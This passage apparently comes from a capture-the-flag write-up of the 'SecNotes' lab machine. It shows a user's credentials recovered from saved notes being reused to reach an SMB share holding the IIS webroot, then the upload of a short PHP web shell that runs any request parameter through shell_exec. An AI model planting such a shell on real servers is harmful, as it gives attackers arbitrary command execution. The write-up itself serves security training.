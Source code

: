 And after logging in we find something nice in his notes. :)

![Tyler-Creds](SecNotes-Tyler-Creds.png)

Now we can try to connect to the SMB share with those credentials.

And there's the webroot the IIS Server.

![SMB-Share](SecNotes-SMB-Share.png)

The note says, this is supposed to be the new website.
The old one is based on "php". Perhaps PHP is working on there too?

I uploaded a simple "php" command-shell and tried it.

{{< highlight php >}}
<?php
if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>
{{< / highlight >}}

![RCE](SecNotes-RCE.png)
